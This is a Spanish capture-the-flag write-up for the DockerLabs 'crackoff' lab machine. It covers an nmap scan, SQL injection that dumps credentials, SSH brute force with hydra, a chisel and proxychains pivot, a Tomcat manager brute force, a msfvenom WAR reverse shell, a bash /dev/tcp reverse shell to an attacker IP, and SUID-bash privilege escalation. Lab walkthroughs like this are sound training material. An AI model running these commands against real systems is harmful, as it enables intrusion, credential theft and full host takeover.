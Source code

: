 # crackoff

Maquina crackoff de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil

![dock](../../maquina-crackoff/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 20:58:30 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-26 20:58:30 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNuJZkQSLJmcZX14n7uNiUBZ/Li3VabQ8/HRKIsPXb/9CZmDhjdBLLRgvjL9NpgVgU2gGEFTSkljIn0SGcgaoIY=
|   256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINZLckodawlUx1KSiq+zaADv0w1jbQwrlE98GYdEY/jH
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 20:58:39 2024 -- 1 IP address (1 host up) scanned in 9.35 seconds

```

Solo vemos el puerto 80 y 22 abierto, por lo que continuaremos al navegador.

**PUERTO 80:**

![80](../../maquina-crackoff/imagenes/80.png)

Luego de ver un rato, entré en "Iniciar Sesión" y vi un panel de login que es vulnerable a inyeccion sql, por lo que ejecutaremos lo siguiente para poder ver la base de datos:

```css
sqlmap -u "http://172.17.0.2/login.php" --forms --batch --dbs --time-sec=1 --dump
```

```css
+----+---------------------------+------------------+
| id | password                  | username         |
+----+---------------------------+------------------+
| 1  | password123               | rejetto          |
| 2  | alicelaultramejor         | tomitoma         |
| 3  | passwordinhack            | alice            |
| 4  | supersecurepasswordultra  | whoami           |
| 5  | estrella_big              | pip              |
| 6  | colorcolorido             | rufus            |
| 7  | ultramegaverypasswordhack | jazmin           |
| 8  | unbreackroot              | rosa             |
| 9  | happypassword             | mario            |
| 10 | admin12345password        | veryhardpassword |
| 11 | carsisgood                | root             |
| 12 | badmenandwomen            | admin            |
+----+---------------------------+------------------+
```

Como vemos, tenemos varios usuarios, por lo que nos lo guardaremos en un `user.txt` y `pass.txt`. Luego ejecutaremos hydra con ambos apuntando al puerto 22 de ssh.

```css
hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV
```

```css
[22][ssh] host: 172.17.0.2   login: rosa   password: ultramegaverypasswordhack
```

## INTRUSION

Teniendo creedenciales del ssh nos conectaremos y listo. `ssh rosa@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

#### ROSA

Luego de buscar un rato, se me ocurre ver si hay puertos abiertos localmente, para esto simplemente ejecutamos `netstat -punta` y listo.

```css
rosa@e95886b6af7e:~$ netstat -punta
(No info could be read for "-p": geteuid()=1002 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8005          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.2:22           172.17.0.1:41524        ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
rosa@e95886b6af7e:~$ 
```

Aca lo unico que nos importa es que `el puerto 8080 esta abierto`, por lo que nos bajamos el [chisel](https://github.com/jpillora/chisel/releases/tag/v1.10.0) y nos lo pasamos a rosa, ahora tendremos que ejecutar esto:

```css
MAQUINA ATACANTE:
./chisel server --reverse -p 1111
```

```css
MAQUINA VICTIMA
./chisel client 192.168.1.101:1111 R:socks
```

Ahora solo modificamos el archivo `/etc/proxychains` y ponemos al final:

```css
socks5 127.0.0.1 1080
```

Una vez hecho esto, ya tendremos conectividad con el puerto 8080, por lo que tendremos que entrar a `127.0.0.1:8080` desde el navegador:

**PUERTO 8080:**

![8080](../../maquina-crackoff/imagenes/tomcat.png)

Como vemos hay un tomcat, pero si queremos ir a "manager app" nos pide contraseña, por lo que haremos lo siguiente:

```css
proxychains msfconsole
```

Una vez iniciada ejecutaremos lo siguiente:

```css
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 127.0.0.1
set RPORT 8080
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/pass.txt
set TARGETURI /manager/html
```

Con `USER_FILE` le pasaremos nuestra wordlist anterior de usuarios, y con `PASS_FILE` la de contraseñas, una vez hecho todo esto nos deberia encontrar la siguiente contraseña:

```css
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
```

Por lo que ya tendremos una contraseña y usuario, ahora simplemente nos queda enviarnos una reverse shell como el usuario "tomcat", para esto entraremos a "manager app" con nuestras credenciales, y en nuestra maquina local nos crearemos un .war malicioso, para hacerlo ejecutamos:

```css
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=9090 -f war -o rev.war
```

Y esto lo cargaremos en la página en la parte que dice "Seleccione archivo WAR a cargar ", y luego apretamos en desplegar.

Ahora volvemos a nuestra maquina atacante y abriremos la msfconsole, luego ejecutaremos todo esto:

```css
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 192.168.1.101
set LPORT 9090
exploit
```

una vez ejecutado todo esto, entraremos desde el navegador a `http://127.0.0.1:8080/rev/`, esperamos un poco y recibiremos la reverse shell.

#### TOMCAT

Estando dentro de la msfconsole nos enviamos una reverse shell para poder dejar de usarla y estar mas cómodos, simplemente escucharemos con netcat en el puerto que queramos(en mi caso el 9090) y luego en msfconsole ejecutamos:

```css
bash -i >& /dev/tcp/192.168.1.101/9090 0>&1
```

Ahora hacemos el tratemiento de la tty, que seria esto:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg # damos al enter y escribimos "reset xtern" y volvemos a dar al enter
export TERM=xterm && export SHELL=bash
stty rows 33 columns 128
```

Ahora ejecutamos un `sudo -l` y vemos lo siguiente:

```css
Matching Defaults entries for tomcat on e95886b6af7e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomcat may run the following commands on e95886b6af7e:
    (ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
```

viendo que podemos ejecutarlo como root y que encima lo podemos modificar, haremos que le de permisos SUID a bash. Para hacer esto modificamos la primer linea y cambiamos `sh` por `bash` y en la segunda un `chmod u+s /bin/bash`, una vez hecho esto ejecutamos el script como root y luego ponemos `bash -p`. _Ya somos root_:

![root](../../maquina-crackoff/imagenes/root.png)

Gracias por leer.....
